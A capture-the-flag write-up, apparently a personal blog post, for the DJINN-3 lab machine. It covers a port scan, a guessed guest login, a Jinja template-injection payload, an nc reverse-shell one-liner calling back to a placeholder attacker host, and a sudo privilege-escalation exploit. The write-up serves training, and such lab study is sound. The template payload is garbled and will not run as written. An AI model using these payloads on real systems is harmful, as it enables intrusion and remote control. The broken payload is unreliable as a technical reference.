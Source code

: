 ```yaml
---
title: DJINN 3
categories: [Proving Grounds Play]
tags: [Public Exploit, SSTI, PrivEsc, sudo exploit, jinja]
image:
  path: /Vulnhub-Files/img/DJINN-3/167-3.png
  alt:  DJINN 3 Machine 🖥️
---
```


## **Description ⤵️**

>
**💡 [DJINN-3](https://www.vulnhub.com/entry/djinn-3,492/)**
<br>
- **Level:** Intermediate
- **flags**: root.txt
- **Description:** The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to read the root flag.
{: .prompt-info }

### Let’s find the IP Address first >>

![167-1.png](/Vulnhub-Files/img/DJINN-3/167-1.png)

```bash
IP : 10.0.2.20
```
{: .nolineno}

## Port Scan Results ➡️

![167-2.png](/Vulnhub-Files/img/DJINN-3/167-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
5000   HTTP
31337  Elite?
```
{: .nolineno}


## Web Enumeration ⤵️

![167-3.png](/Vulnhub-Files/img/DJINN-3/167-3.png)

![167-4.png](/Vulnhub-Files/img/DJINN-3/167-4.png)

So the port `31337` is for netcat connection → I guess the username & password as `guest:guest` and I got in →

![167-5.png](/Vulnhub-Files/img/DJINN-3/167-5.png)

Now lets check for `SSTI vulnerability` →

![167-6.png](/Vulnhub-Files/img/DJINN-3/167-6.png)

![167-7.png](/Vulnhub-Files/img/DJINN-3/167-7.png)

So I guess we have `SSTI vulnerability` so lets exploit →

Since my payload land into `jinja` catagory of `SSTI` so →

![167-8.png](/Vulnhub-Files/img/DJINN-3/167-8.png)

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls"));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

![167-9.png](/Vulnhub-Files/img/DJINN-3/167-9.png)

So After using this payload I got response as →

![167-10.png](/Vulnhub-Files/img/DJINN-3/167-10.png)

So now lets have a reverse shell and I will be using this nc reverse shell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f` to do so →

![167-11.png](/Vulnhub-Files/img/DJINN-3/167-11.png)

![167-12.png](/Vulnhub-Files/img/DJINN-3/167-12.png)

___

## SHELL ➡️

![167-13.png](/Vulnhub-Files/img/DJINN-3/167-13.png)

Now I have used one exploit to counter this linux machine →

And this time I exploited the sudo version →

![167-14.png](/Vulnhub-Files/img/DJINN-3/167-14.png)

URL → [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

![167-15.png](/Vulnhub-Files/img/DJINN-3/167-15.png)

Now lets use the `exploit_nss.py` exploit →

![167-16.png](/Vulnhub-Files/img/DJINN-3/167-16.png)

![167-17.png](/Vulnhub-Files/img/DJINN-3/167-17.png)

___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }